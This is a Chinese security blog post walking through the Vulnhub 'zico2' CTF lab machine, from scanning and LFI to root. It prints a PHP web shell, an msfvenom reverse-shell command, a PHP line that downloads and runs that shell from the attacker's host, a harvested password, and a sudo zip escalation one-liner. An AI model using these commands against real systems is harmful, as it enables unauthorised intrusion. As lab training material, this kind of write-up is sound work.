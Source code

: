 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/3wjO3KsrrZepxcjNsHQKdA)

大余安全  

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **32** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/gBSJuVtWXPZE73MPxL1VoDjO3DFaxJA2MQpSSibwsXKVf4VIHh8S9fZXT8pq1ALE3hWEN22AaniaghxGrJqjEsxw/640?wx_fmt=png)

靶机地址：https://www.vulnhub.com/entry/zico2-1,210/

靶机难度：中级（CTF）

靶机发布日期：2017 年 6 月 19 日

靶机描述：

Zico 试图建立自己的网站，但在选择要使用的 CMS 时遇到了一些麻烦。在尝试了一些受欢迎的方法后，他决定建立自己的方法。那是个好主意吗？

提示：枚举，枚举和枚举！

目标：得到 root 权限 & 找到 flag.txt

请注意：对于所有这些计算机，我已经使用 VMware 运行下载的计算机。我将使用 Kali Linux 作为解决该 CTF 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/ymNhlIRQRwIDdqQDCiblECK9VN2KquqTzJXM7etEnDcIpDdITqzFuiapav9TDnIiaGgf1e4sP9IO6B5NEtEyg2t5w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/eGDabDaNAhQ72wHWRToOUZR31X9kamiak0wrpr3lxKHpuoTpia329Xu6T0OTYlZic9XeEyQ4twasnibb924VBgIt1g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/6DdW6admPmWicucEOicwONQBeMWRA7Pq57A9xCTGbIWomiboqObS0bEetoo2qW2hHk2E5GOcuQYUqSlQT5BKsDqRQ/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/M39rvicGKTibrmYlY2VW5XChia77yhteBC7iarNdYSwicq64NZrCHeSZqRpsFRTZkpfgclSWaibqftONNMWLkz6QjyoQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvCPcLHEbhrIgmrs910daicCjvKYgq4snnszrneef7iamKEuoibiaSYOtMrg/640?wx_fmt=png)

我们在 VM 中需要确定攻击目标的 IP 地址，需要使用 nmap 获取目标 IP 地址：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvR5RkADKTrTQBib0mAEZ3ygVicSCMtyBEuzibmJsKX12IogcgnspKYzdPw/640?wx_fmt=png)

我们已经找到了此次 CTF 目标计算机 IP 地址：192.168.56.128

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvOr4HhvbVXG8vFHSXE596oI2fI6PrZmReiatNLKpq0aqF58B0CDCMUtQ/640?wx_fmt=png)

nmap 扫到了 22、80、111、50702 端口是开启的...

检出 Web 端口：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvibAAkhDriccAae88LJU5mzTLUCVOjow7AOmLGZaJFXFJKv9tdmbUCc7A/640?wx_fmt=png)

往下翻...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvCtKNoH54RmwqMImUSdJbib4tIvD1DU8xmPK4GH0IG8BNsgIw2UfMpIg/640?wx_fmt=png)

点击进入...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvsNGz17jZ4OZQ9KPTRAy9edOV642PNzgFAuzTzxa1489UThacg95tOg/640?wx_fmt=png)

可以看到 tools.html 页面的 URL... 可能容易受到 LFI 的影响.... 试试

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufv1ZWeFleEUqcaV1LXmrL9IiaqlujRwIsE3BL0oylN3MAzXAW4Nv1I3Ow/640?wx_fmt=png)

尝试获取 LFI 并成功使用 /../../etc/passwd.... 这边找到了 zico 用户...

前面提示让我们枚举，那我就枚举爆破看看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufv8QUpzgylke2OB9ysibhZlHjwkaCljY6Deo32BHF5uvZyVI7IiboBXYUQ/640?wx_fmt=png)

/dbadmin / 浏览这个目录发现了 test_db.php 文件.... 访问它

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvrKnO9ua31t67ibcZnQFicvibGexib3iaAue9sib79tBiaVUJSSibOrIKufvurQ/640?wx_fmt=png)

可以看到一个 php 数据库登录页面以及版本名称....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvelU7ESWRoaE6uCV0Z38KfL1rgKUCic1HWWbticbiavA1SiavKCZC7PoHqw/640?wx_fmt=png)

使用默认密码 admin，成功登录进来...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvurR030CHMGlsteqWg6a0aWSHRyx7bPVm1Ugt5CZziasDR7fwI7ibrHPw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufv8ZL1ErSibVRQ6Q1xFPDt9NkLnwMRSdrBJeWtphxLNNGtZSN0kpU6XXA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvEliafwPwfgPN7LJju5f2rdTnOhbkI109h2MXsv0sSHicqJbaWZhCb3vA/640?wx_fmt=png)

可以看出，这里目前我发现有三种方法可以提权...

文件上传...LFI 注入... 写 shell 在页面插入...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvO7SuKXmsVr3r9SOe6Uib7FJAyIBiapaE8btS2riaJa7IgwJ2IIluhs0Zw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvjQMgLsgcIWFvdibib6eBhcOKLfRxwBjd9zSnsFBEEia4O14mXYsXfP2Kg/640?wx_fmt=png)

查看到步骤后，按照进行即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvP5bvzuzdawEsWFHkiaq45XMNUbebsA6ia95RG8LC7icqNqXn9vVYeDBBA/640?wx_fmt=png)

```
<?php echo system($_GET["cmd"]); ?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvPBn0vlT7khRib2O7ib2aQVcibzy9mpPoWicfdk5fcg6rRbrBS5fVCItKiaA/640?wx_fmt=png)  

可以看到 php 代码脚本已保存在数据库中...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvFXy6j6qHvV4iaGemS0jIYC4sfqqu3icKhXvkzYxzRE1d6Tlo9U1UVHhQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/6DdW6admPmWicucEOicwONQBeMWRA7Pq57A9xCTGbIWomiboqObS0bEetoo2qW2hHk2E5GOcuQYUqSlQT5BKsDqRQ/640?wx_fmt=png)

二、提权

![](https://mmbiz.qpic.cn/mmbiz_png/M39rvicGKTibrmYlY2VW5XChia77yhteBC7iarNdYSwicq64NZrCHeSZqRpsFRTZkpfgclSWaibqftONNMWLkz6QjyoQ/640?wx_fmt=png)

这边执行了该文件... 可以看到位于 www-data 中....

这边思路就很简单了，先在本地创建个 shell...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvAFdL698LbYsAfygaOMjicibkziakTdcDibicPG8sGicPdNfmCedkKW03fHNA/640?wx_fmt=png)

```
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.56.103 lport=4444 -f elf > shell
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufveDibMB2Pd8WzohHjXDVZYlZQgCSMJAacDjk8yicDStk7IoIoKkpAjkSA/640?wx_fmt=png)

开启 msf，我无奈的不知道为什么很简单的上传个 shell 上去，打开就能获得权限，可是死活就不行，我就只能求助 MSF 先把这台靶机拿下先，不然心态爆炸了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvZKQZSCVW2LU6MR1mibopliaQhjJTK7sETflVYvtV16HzqkkYh2IEx2Qw/640?wx_fmt=png)

```
<?php system("cd /tmp;wget http://192.168.56.103:8000/shell;chmod +x shell;./shell");?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvJLmCvguJYiaWwAVP3RltWZzpSRsGOm2dic51TWicdX1dWBDPRwNonsXOA/640?wx_fmt=png)

重新访问下即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvvn7Hc9uhmClic5eFUHEpyVianYPZHic2WQMBzaRAiax0EmQRwlibOaM2cfA/640?wx_fmt=png)

这边成功获得权限... 这边进入 zico 用户后，发现了 wordpress 目录，进去肯定有一个 wp-config.php 文件可以查看账号密码的... 常识

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufv0VS9iaEAe15urULI9urOjlIGdebwVwvJYicjyfqaXh7lB0NcOyAH1Cew/640?wx_fmt=png)

```
sWfCsfJSPV9H3AmQzw8
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvdeZxUdv1BbdDlsyqicKAZG49BA2MJIia0T1ib3CorJMAwMwZBMcvL0HwQ/640?wx_fmt=png)

ssh 成功登陆...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPyxNJjpfmicxdFgD3ibBcufvPLtdrib3UibH4HhxzkucQntzjAVCulDmXdwwTX2mtjcAPKLwQHqpZn1Q/640?wx_fmt=png)

```
sudo zip /tmp/nisha.zip /home/zico/raj -T --unzip-command="sh -c /bin/bash"
```

![](https://mmbiz.qpic.cn/mmbiz_png/gBSJuVtWXPZE73MPxL1VoDjO3DFaxJA2MQpSSibwsXKVf4VIHh8S9fZXT8pq1ALE3hWEN22AaniaghxGrJqjEsxw/640?wx_fmt=png)

可以看到用户可以以 root 用户身份运行 tar 和 zip 命令，而无需输入任何密码...

将文件 raj 压缩为文件，然后将其移动到 / tmp/nisha.zip 文件夹，最后将其解压缩，然后弹出 root 壳...

成功获得 root 权限和找到 flag.txt....

由于我们已经成功得到 root 权限 & 找到 flag.txt，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/ymNhlIRQRwIDdqQDCiblECK9VN2KquqTzJXM7etEnDcIpDdITqzFuiapav9TDnIiaGgf1e4sP9IO6B5NEtEyg2t5w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/eGDabDaNAhQ72wHWRToOUZR31X9kamiak0wrpr3lxKHpuoTpia329Xu6T0OTYlZic9XeEyQ4twasnibb924VBgIt1g/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)